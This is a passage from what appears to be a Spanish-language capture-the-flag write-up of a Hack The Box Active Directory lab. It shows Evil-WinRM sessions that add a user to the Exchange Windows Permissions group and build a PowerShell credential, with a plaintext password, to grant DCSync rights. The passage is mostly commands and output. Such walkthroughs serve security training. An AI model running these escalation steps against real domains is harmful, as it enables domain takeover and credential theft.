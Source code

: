 ```bash
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> 
```

- Ahora tenemos que meter al usuario en el grupo **Exchange Windows Permissions**.

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" miguel /add
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user miguel
User name                    miguel
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            6/17/2023 7:23:24 PM
Password expires             Never
Password changeable          6/18/2023 7:23:24 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Exchange Windows Perm*Domain Users
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> 
```

- Ahora vamos a darle el privilegio de **DCSync** al usuario. 

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $SecPassword = ConvertTo-SecureString 'miguel123$!' -AsPlainText -Force
```

- Ahora vamos a definir una credencial  y le indicamos el dominio la contraseña **$SecPassword** ya la tenemos definida.

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $Cred = New-Object System.Management.Automation.PSCredential('htb.local\miguel', $SecPassword)
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> 
```
